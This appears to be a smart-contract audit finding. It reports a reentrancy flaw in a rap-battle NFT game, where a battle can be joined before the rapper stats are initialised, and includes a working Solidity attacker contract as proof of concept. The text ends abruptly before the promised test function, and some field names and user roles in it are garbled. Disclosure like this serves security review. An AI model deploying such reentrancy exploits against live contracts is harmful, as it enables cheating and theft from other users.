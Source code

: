 ## Vulnerability Details
An attacker could create a Smart Contract and implement the function `function onERC721Received(address, address, uint256 id, bytes calldata)` with the call of `rapBattleContract.goOnStageOrBattle`.

When the Attacker Smart Contract mint a OneShot NFT by calling `OneShotNFT.mintRapper()`, the Contract receive the NFT and automatically trigger `onERC721Received` function in the Attacker smart contract where he implement something to call `rapBattleContract.goOnStageOrBattle`. 
Stats `rapperStats[tokenId]` is not initialized yet because the stats are updated after `safeMint()` in the `OneShot.mintRapper()` function.

The Attacker use reentrancy to benefit from better stats without stakeing to improve his skill.

## Impact
If a user already has cred token in the Attacker smart contract and goes to battle before his stats are updated, he would have a better start because `rapperStats.weakKnees`, `rapperStats.weakKnees`, `rapperStats.weakKnees` are not initialized yet and will equal to false.

## POC
0 - User mints OneShot NFT
1 - User and user2 already have 3 cred tokens
2 - User goes to battle with his NFT as defender
3 - User2 calls the function `attack()` of the AttackerContract smart contract to mint NFT
4 - User3 receives the NFT in the Smart Contract that triggers the function `function onERC721Received`, that makes him go on Battle as challenger with good stats (not initialized yet)

### AttackerContract: Attacker Smart Contract

```javascript
contract AttackerContract is IERC721Receiver {
    OneShot public oneShotContract;
    RapBattle public rapBattleContract;
    uint256 public amountBet;

    uint256 count;

    constructor(address _oneShotContract, address _rapBattle) {
        oneShotContract = OneShot(_oneShotContract);
        rapBattleContract = RapBattle(_rapBattle);
    }

    function attack(uint256 _amountBet) public {
        amountBet = _amountBet;
        oneShotContract.mintRapper();
    }

    // Implementing IERC721Receiver so the contract can accept ERC721 tokens
    function onERC721Received(address, address, uint256 id, bytes calldata) external override returns (bytes4) {

        // This part shows that the user has these 3 features set to false instead of true when he mints the NFT
        OneShot.RapperStats memory rapperStats = oneShotContract.getRapperStats(id);
        console.log("Attacker weakKnees: %s", rapperStats.weakKnees);
        console.log("Attacker weakKnees: %s", rapperStats.weakKnees);
        console.log("Attacker weakKnees: %s", rapperStats.weakKnees);
        rapBattleContract.goOnStageOrBattle(id, amountBet);

        return IERC721Receiver.onERC721Received.selector;
    }
}
```
To run the exploit, add this function in the file OneShotTest.t.sol:


[L1]: The function `OneShot.getRapperStats(_tokenId)` returns inconsistent information.